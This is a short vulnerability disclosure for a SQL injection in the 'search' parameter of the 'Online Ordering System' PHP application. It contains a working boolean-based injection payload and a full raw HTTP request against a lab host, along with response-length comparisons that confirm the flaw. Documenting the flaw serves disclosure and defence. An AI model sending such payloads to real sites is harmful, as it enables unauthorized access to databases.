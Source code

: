 # Online Ordering System By janobe has SQL injection vulnerability

Author： Lingtao Wang

vendor: https://www.sourcecodester.com/php/12978/online-ordering-system-phpmysqli.html

Vulnerability file: /ordering/index.php?q=category&search=

Vulnerability location: /ordering/index.php?q=category&search= //search is Injection point

[+]Payload: /ordering/index.php?q=category&search=3%20and%20length(database())%20=12--+ //search is Injection point

Current database name: multistoredb,length is 12

```sql
GET /ordering/index.php?q=category&search=3%20and%20length(database())%20=12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 11, Content-Length: 18685
![image](https://user-images.githubusercontent.com/54017627/168940877-fe78d6d4-057b-4ac4-a315-a34cdcf494c0.png)

![image](https://user-images.githubusercontent.com/54017627/168940952-82028fe3-7fff-449b-bc0a-8f68fdc5684f.png)

When length (database ()) = 12, Content-Length: 23327
![image](https://user-images.githubusercontent.com/54017627/168940838-8ed656af-0e7e-480f-9ce7-7cc4686a801f.png)

![image](https://user-images.githubusercontent.com/54017627/168940910-5994ba2d-1b3b-42e1-92fb-cee5aa9a7b4a.png)
